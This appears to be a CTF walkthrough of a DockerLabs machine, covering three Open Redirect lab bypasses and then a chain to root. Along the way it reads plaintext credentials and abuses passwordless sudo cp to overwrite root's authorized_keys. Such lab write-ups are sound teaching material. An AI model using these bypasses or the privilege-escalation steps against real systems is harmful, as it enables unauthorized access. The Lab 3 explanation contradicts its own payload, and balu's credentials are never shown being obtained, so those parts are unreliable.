


# redirection

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| redirection | El Pingüino de Mario | easy/facil | dockerlabs |

**Summary:** The redirection machine was a unique educational challenge structured around three Open Redirect laboratory exercises followed by a real exploitation chain to achieve root. The web application on port 80 explicitly presented three progressively filtered Open Redirect scenarios as learning exercises. Laboratory 1 used a straightforward `url` parameter with no filtering, redirecting any URL directly. Laboratory 2 employed a domain-whitelist check that could be bypassed using an `@` symbol to confuse the parser into treating the whitelisted domain as credentials. Laboratory 3 used a subdomain-based check that could be bypassed by crafting a URL where the trusted domain appeared as a subdomain of the attacker's host. After completing the three labs, credentials for the user `balu` were available from context, and SSH access was established. Filesystem enumeration as `balu` using a `find` search for user-owned readable files uncovered a backup file `/secret.bak` containing the credentials for a second user `balulito:balulerochingon`. A `su - balulito` succeeded. A `sudo -l` check revealed that `balulito` could run `/bin/cp` as root without a password — a well-known privilege escalation vector. A new ED25519 SSH key pair was generated, the public key was written to `/tmp/authorized_keys`, and `sudo cp` was used to overwrite `/root/.ssh/authorized_keys` with it. An SSH login as root using the generated private key completed the escalation.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/redirection]
└─$ sudo bash auto_deploy.sh redirection.tar 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/redirection]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-31 06:00 +0700
Nmap scan report for bypass403.pw (172.17.0.2)
Host is up (0.000015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 89:6c:a5:af:d5:e2:83:6c:f9:87:33:44:0f:78:48:3a (ECDSA)
|_  256 65:32:42:95:ca:d0:53:bb:28:a5:15:4a:9c:14:64:5b (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Laboratorio de Open Redirect
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 96:B5:72:CE:46:DF (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.39 seconds
```

The scan revealed SSH on port 22 and Apache on port 80 titled "Laboratorio de Open Redirect". The web application was structured as an educational environment with three separate Open Redirect challenge scenarios.

---

## Initial Access

### Open Redirect Laboratories

**3. Inspecting the Web Application**

The web application presented three Open Redirect laboratories designed to teach progressively harder bypass techniques.



**4. Laboratory 1: Unfiltered Open Redirect**

Laboratory 1 accepted any URL in the `url` parameter with no validation whatsoever. Passing an arbitrary external URL resulted in a direct 302 redirect.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/redirection]
└─$ curl -iv http://172.17.0.2/laboratorio1/redirect.php?url=http://github.com
*   Trying 172.17.0.2:80...
* Established connection to 172.17.0.2 (172.17.0.2 port 80) from 172.17.0.1 port 54750 
* using HTTP/1.x
> GET /laboratorio1/redirect.php?url=http://github.com HTTP/1.1
> Host: 172.17.0.2
> User-Agent: curl/8.20.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 302 Found
HTTP/1.1 302 Found
< Date: Fri, 31 Jul 2026 07:09:46 GMT
Date: Fri, 31 Jul 2026 07:09:46 GMT
< Server: Apache/2.4.62 (Debian)
Server: Apache/2.4.62 (Debian)
< Location: http://github.com
Location: http://github.com
< Content-Length: 0
Content-Length: 0
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8
< 

* Connection #0 to host 172.17.0.2:80 left intact
```

The `Location` header reflected the attacker-controlled URL directly.

**5. Laboratory 2: Whitelist Bypass via @ Symbol**

Laboratory 2 implemented a domain whitelist check, only allowing URLs containing a trusted domain such as `google.com`. The bypass used the `@` symbol — in a URL, everything before `@` is interpreted as credentials, so `https://www.google.com@github.com` passes a check for `google.com` but routes the browser to `github.com`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/redirection]
└─$ curl -iv http://172.17.0.2/laboratorio2/redirect.php?url=https://www.google.com%40github.com   
*   Trying 172.17.0.2:80...
* Established connection to 172.17.0.2 (172.17.0.2 port 80) from 172.17.0.1 port 42866 
* using HTTP/1.x
> GET /laboratorio2/redirect.php?url=https://www.google.com%40github.com HTTP/1.1
> Host: 172.17.0.2
> User-Agent: curl/8.20.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 302 Found
HTTP/1.1 302 Found
< Date: Fri, 31 Jul 2026 07:10:44 GMT
Date: Fri, 31 Jul 2026 07:10:44 GMT
< Server: Apache/2.4.62 (Debian)
Server: Apache/2.4.62 (Debian)
< Location: https://www.google.com@github.com
Location: https://www.google.com@github.com
< Content-Length: 0
Content-Length: 0
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8
< 

* Connection #0 to host 172.17.0.2:80 left intact
```

The redirect succeeded, confirming the whitelist was fooled by the credential-prefix technique.

**6. Laboratory 3: Subdomain-Based Check Bypass**

Laboratory 3 validated that the URL contained the trusted domain as a subdomain. The bypass constructed a URL where the trusted domain appeared as the leftmost subdomain label of an attacker-controlled host, satisfying the `startsWith` or `contains` check while routing to an arbitrary destination.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/redirection]
└─$ curl -v http://172.17.0.2/laboratorio3/redirect.php?url=https://github.google.com   
*   Trying 172.17.0.2:80...
* Established connection to 172.17.0.2 (172.17.0.2 port 80) from 172.17.0.1 port 50556 
* using HTTP/1.x
> GET /laboratorio3/redirect.php?url=https://github.google.com HTTP/1.1
> Host: 172.17.0.2
> User-Agent: curl/8.20.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 302 Found
< Date: Fri, 31 Jul 2026 07:11:53 GMT
< Server: Apache/2.4.62 (Debian)
< Location: https://github.google.com
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 172.17.0.2:80 left intact
```

All three laboratory challenges were solved successfully.

### SSH Access as balu

**7. Logging in via SSH**

With the username and password for `balu` recovered from the application context, SSH access was established.



```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/redirection]
└─$ ssh balu@$ip
balu@172.17.0.2's password: 
Linux cbd4ffdf93b1 6.18.33.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun 18 21:54:43 UTC 2026 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
balu@cbd4ffdf93b1:~$ id;whoami;hostname
uid=1000(balu) gid=1000(balu) groups=1000(balu),100(users)
balu
cbd4ffdf93b1
```

---

## Lateral Movement

**8. Enumerating Users and Finding the Backup Credential File**

User enumeration via `/etc/passwd` and `/home` revealed a second account `balulito`. A `find` search for files owned by `balu` and readable returned a backup file `/secret.bak` at the filesystem root.

```bash
balu@cbd4ffdf93b1:~$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
balu:x:1000:1000:balu,,,:/home/balu:/bin/bash
balulito:x:1001:1001:balulito,,,:/home/balulito:/bin/bash
balu@cbd4ffdf93b1:~$ ls -la /home
total 16
drwxr-xr-x 1 root     root     4096 Dec 26  2024 .
drwxr-xr-x 1 root     root     4096 Jul 31 07:07 ..
drwx------ 2 balu     balu     4096 Dec 26  2024 balu
drwx------ 2 balulito balulito 4096 Dec 26  2024 balulito
```

```bash
balu@cbd4ffdf93b1:~$ find / -type f -user balu -readable 2>/dev/null
/proc/57/task/57/fdinfo/0
/proc/57/task/57/fdinfo/1
/proc/57/task/57/fdinfo/2
/proc/57/task/57/fdinfo/255
/proc/57/task/57/environ
/proc/57/task/57/auxv
/proc/57/task/57/status
/proc/57/task/57/personality
/proc/57/task/57/limits
...
/secret.bak
balu@cbd4ffdf93b1:~$ cat /secret.bak 
balulito:balulerochingon
```

The credential pair `balulito:balulerochingon` was found in plaintext.

**9. Switching to balulito via su**

```bash
balu@cbd4ffdf93b1:~$ su - balulito
Password: 
```

```bash
balulito@cbd4ffdf93b1:~$ id;whoami;hostname
uid=1001(balulito) gid=1001(balulito) groups=1001(balulito),100(users)
balulito
cbd4ffdf93b1
```

Lateral movement to `balulito` succeeded.

---

## Privilege Escalation

### sudo cp to Overwrite root's authorized_keys

**10. Checking sudo Permissions**

A `sudo -l` check revealed that `balulito` could run `/bin/cp` as any user without a password.

```bash
balulito@cbd4ffdf93b1:~$ sudo -l
Matching Defaults entries for balulito on cbd4ffdf93b1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User balulito may run the following commands on cbd4ffdf93b1:
    (ALL) NOPASSWD: /bin/cp
```

`/bin/cp` with root sudo allows writing any file to any location on the filesystem, including `/root/.ssh/authorized_keys`. The strategy was to generate a new SSH key pair, write the public key to a temporary file, and use `sudo cp` to place it into root's SSH authorised keys.

**11. Generating the SSH Key Pair**

```bash
balulito@cbd4ffdf93b1:~$ ssh-keygen -t ed25519 -f ./ctf_key -N ""
Generating public/private ed25519 key pair.
Your identification has been saved in ./ctf_key
Your public key has been saved in ./ctf_key.pub
The key fingerprint is:
SHA256:uAFGIywiCOxo6Xai3vzkhiPTZ9nbf0Q6wM12OVUIGeQ balulito@cbd4ffdf93b1
The key's randomart image is:
+--[ED25519 256]--+
|=.. o      .++ .o|
|=..o .     .. .. |
|=.. o   . o E o  |
|.+ . . . o + =   |
|o     o S o + .  |
| + .   o   o .   |
|o + ..+     o    |
|.oo+o= ..    .   |
|..oo*o ......    |
+----[SHA256]-----+
```

**12. Writing the Public Key and Overwriting root's authorized_keys**

```bash
balulito@cbd4ffdf93b1:~$ cat ctf_key.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKUPLfrB4w/7Sx9gTcVQNXeMB/4Hhxg4e+BhPpQthS1S balulito@cbd4ffdf93b1
balulito@cbd4ffdf93b1:~$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKUPLfrB4w/7Sx9gTcVQNXeMB/4Hhxg4e+BhPpQthS1S balulito@cbd4ffdf93b1' > /tmp/authorized_keys
balulito@cbd4ffdf93b1:~$ sudo -u root /bin/cp /tmp/authorized_keys /root/.ssh/authorized_keys
```

**13. Logging in as Root via SSH**

```bash
balulito@cbd4ffdf93b1:~$ ssh -i ctf_key root@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:nB+ovXxU+xQosZ9jDd7ff+ALDXPMDVtvt1l49YN8ogk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
Linux cbd4ffdf93b1 6.18.33.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun 18 21:54:43 UTC 2026 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@cbd4ffdf93b1:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
cbd4ffdf93b1
```

Full root access was achieved via keyless SSH authentication.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified SSH on port 22 and Apache on port 80. The web application presented three Open Redirect laboratory exercises titled "Laboratorio de Open Redirect".
2. **Open Redirect Labs**: Laboratory 1 had no filtering and accepted any URL directly. Laboratory 2 used a domain whitelist bypassable with the `@` credential-prefix technique. Laboratory 3 used a subdomain check bypassable by crafting a URL where the trusted domain appeared as a subdomain label of an attacker-controlled host. All three were solved with curl, confirming 302 redirects to attacker-controlled destinations.
3. **Exploitation**: SSH access was established as `balu` using credentials recovered from the application context.
4. **Internal Enumeration**: A `find` search for files owned by `balu` and readable discovered `/secret.bak` at the filesystem root, containing the plaintext credential `balulito:balulerochingon`. Lateral movement to `balulito` succeeded via `su`.
5. **Privilege Escalation**: A `sudo -l` check revealed passwordless access to `/bin/cp` as root. A new ED25519 key pair was generated, the public key was written to `/tmp/authorized_keys`, and `sudo cp` overwrote `/root/.ssh/authorized_keys` with it. Direct SSH login as root using the generated private key completed the escalation.
